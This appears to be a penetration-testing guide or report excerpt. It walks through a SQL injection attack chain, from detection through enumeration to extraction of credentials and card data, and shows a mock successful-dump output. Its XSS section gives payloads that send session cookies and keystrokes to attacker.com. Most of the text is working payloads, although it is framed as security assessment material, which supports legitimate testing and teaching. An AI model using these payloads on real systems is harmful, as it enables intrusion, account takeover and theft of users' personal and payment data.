 **SQL Injection Attack Chain:**

**Step 1: Detection**
```sql
-- Test for SQL injection vulnerability
https://target.com/product?id=1' OR '1'='1
https://target.com/product?id=1' AND '1'='2
https://target.com/product?id=1' ORDER BY 10--
```

**Step 2: Database Enumeration**
```sql
-- Determine database type
https://target.com/product?id=1' AND 1=1-- (MySQL)
https://target.com/product?id=1' AND 1=1;-- (SQL Server)

-- Extract table names
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables--

-- Extract column names
' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='users'--
```

**Step 3: Data Exfiltration**
```sql
-- Extract user credentials
' UNION SELECT username,password,email FROM users--

-- Extract sensitive data
' UNION SELECT card_number,cvv,expiry FROM payments--
```

**Impact Demonstration:**
```
 SQL INJECTION EXPLOIT SUCCESSFUL

Database: MySQL 8.0.28
Extracted: 10,000 user records
Data Includes:
- Usernames
- Hashed passwords (MD5 - weak!)
- Email addresses
- Phone numbers

Proof of Concept:
[Screenshot of database dump]

Risk: Critical - Full database compromise
```

**Cross-Site Scripting (XSS) Exploitation:**

**Reflected XSS:**
```html
<!-- Test payload -->
https://target.com/search?q=<script>alert('XSS')</script>

<!-- Session stealing payload -->
https://target.com/search?q=<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

<!-- Keylogger payload -->
<script>
document.addEventListener('keypress', (e) => {
  fetch('https://attacker.com/log?key=' + e.key)
})
</script>
```
